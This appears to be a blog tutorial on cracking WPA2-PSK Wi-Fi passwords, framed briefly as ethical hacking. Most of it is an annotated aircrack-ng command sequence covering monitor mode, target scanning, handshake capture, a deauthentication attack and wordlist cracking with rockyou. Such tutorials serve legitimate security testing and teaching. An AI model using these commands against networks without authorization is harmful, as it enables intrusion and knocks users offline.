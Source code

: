 ```yaml
---
title: Password Cracking WPA2-PSK Networks
author: Kevin Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Hacks]
tags: [WPA2, wifi, mac address, kali linux, airmon-ng]
---
```


## What Activities Ethical Hackers perform on Wireless Networks
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks
- Checking network access

## Tools used
- Wireless card that supports dual band, monitor mode and packet injection. => [Plug and Play Wireless card](https://amzn.to/3RQ6XCr)
- Router
- Laptop

## Hacking Process
![Hacking Process](/assets/wpa2.png)

```linux commands
iwconfig                        #check the wireless network configurations, check if usb wireless card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic, where "wlan0" is name of your wireless card
iwconfig                        #confirm whether monitor mode has been enabled

airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon       #will deauthanticate this device 50:C7:BF:8A:00:74 from the network to capture the 3 way handshake
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap              #tries capturing the password by comparing it to a wordlist
#-b = Acess Point mac address

wireshark capture.cap              #monitor captured traffic in wireshark, search for eapol

aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt             #using a popolar wordlist with over 1 million entries
```

This attack will only work when the network uses **WEAK PASSWORDS**
